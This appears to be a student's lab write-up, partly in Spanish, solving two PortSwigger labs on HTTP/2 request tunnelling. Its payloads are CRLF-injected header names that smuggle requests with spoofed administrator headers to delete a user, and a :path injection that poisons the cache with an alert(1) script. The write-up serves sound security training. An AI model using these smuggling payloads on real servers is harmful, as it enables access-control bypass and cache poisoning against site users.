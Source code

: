 # Laboratories http2 request tunnelling

## Expert Lab: Bypassing access controls via HTTP/2 request tunnelling


This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming header names. To solve the lab, access the admin panel at /admin as the administrator user and delete carlos.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to request tunnelling.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2

For solve:
- Enter in admin 
- Delete carlos

Hint: [Bypassing client authentication](https://portswigger.net/web-security/request-smuggling/exploiting#bypassing-client-authentication)
```html
0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```


1. Intercept home page and send to repeater

![](assets/2022-08-05-08-43-30.png)

2.  stop intercept, allow http2 alpn override and change protocol to http2 . Then send and check if it works

![](assets/2022-08-05-08-46-17.png)

3.  Add in header inspector 

```bash
#Name:
foo: bar\r\n
Host: anything

#Value:
anythingvalue
```

![](assets/2022-08-05-08-49-36.png)

💥 Ok, work, Lab its vulnerable to CRLF injection via headers names

4. Intercept search, send to repeater, change to http2 and change request method to POST

![](assets/2022-08-05-08-53-01.png)

5.  in header inspector

```bash
#Name

foo: anything\r\n
Content-Length: 300\r\n
\r\n
search=CLRF

#Value
anyvalue
```

![](assets/2022-08-05-09-02-08.png)

If time out we can try 2 things:

1. Go down Content-Lenght but the resoult is will be very short and we can't will see nothing important
2.  Increase characters in body

![](assets/2022-08-05-09-07-29.png)


cookie: session=5GPREZaKmHIhgcKIcHuM1Rg1eIKYfQfh
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 2765812752956218

6. Now we will use this credentials to login to admin. 

```bash
#Name

foo: anything\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2765812752956218\r\n
\r\n

#Value
anyvalue

```

![](assets/2022-08-05-09-12-41.png)

7. 💥change Method POST to HEAD

![](assets/2022-08-05-09-15-02.png)

8. Response send error 500 the reason is that the content length is too long.
![](assets/2022-08-05-09-16-44.png)

9. we can try changing the url to login

Ok, works

![](assets/2022-08-05-09-18-18.png)

10. the next step would seem to change path to /admin/delete?username=carlos but we can use parameters and unauthorization.

We change url in HEAD 

![](assets/2022-08-05-09-21-59.png)

![](assets/2022-08-05-09-23-04.png)


## Expert Lab: Web cache poisoning via HTTP/2 request tunnelling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and doesn't consistently sanitize incoming headers.

To solve the lab, poison the cache in such a way that when the victim visits the home page, their browser executes alert(1). A victim user will visit the home page every 15 seconds.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to request tunnelling.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2

For solve the lab:
- We need the victim execute alert(1)

1. Vamos a probar si es vulnerable la web por path. Cambiamos el GET a Path en el inspector y añadimos una url \r\nFoo:algo

![](assets/2022-08-05-09-35-16.png)

nos da error , eso es porque no le hemos puesto el http/1.1 al final de la url

Ahora si. 💥Confiramomos que es vulnerable a path. Nos da error 404 porque obviamente la url no existe, pero está intentando acceder.
![](assets/2022-08-05-09-37-06.png)

2. En este momento necesitamos algo para poder ejecutar XSS.
   1. A simple vista no vemos nada.
   2. Probamos las carpetas que haya por ejemplo /img /css /resources en este caso.
   3. Probablemente no vemos nada pero por cuando vayamos al inspector podemos encontrar alguna que haga una redirección. En este caso resources y podrá ser posible víctima

![](assets/2022-08-05-09-57-56.png)

Ahora la mandamos a repeater y vemos que si añadimos el script alert lo manda

![](assets/2022-08-05-09-59-48.png)

En situación normal , yo debería de poder ejecutarlo en mi explorer entiendo.

3. Vamos a insertar en nuestra solicitud

```bash

#💥 Poner el ?delante de aa como parámetro para que no aparezca el 404
#Nombre
:path

#Valor

/?aa HTTP/1.1
Host:0a2b00ed04b96f15c07c1faf00b5001c.web-security-academy.net

Get /resources?<script>alert(1)</script> HTTP/1.1
Foo: anything

```

![](assets/2022-08-05-10-20-42.png)

Nos sale time out, como hemos visto esto sucede cuando el Content-Length es demasiado alto para lo que mandamos, por lo que añadimos más texto. ¿Cuanto texto? Buscamos una petición get y miramos más o menos. Los post tienen unos 8000 caracteres. 

![](assets/2022-08-05-10-38-08.png)

Confirmamos que funciona yendo a la página /?aa que pusimos y viendo que se ejecuta el alert, mientras que la cache se mantiene, por lo que puede que no salte a la primera

![](assets/2022-08-05-10-40-34.png)

Ahora que confirmamos que funciona , quitamos el /?aa y enviamos hasta que lo envenene

![](assets/2022-08-05-10-45-01.png)

![](assets/2022-08-05-10-45-19.png)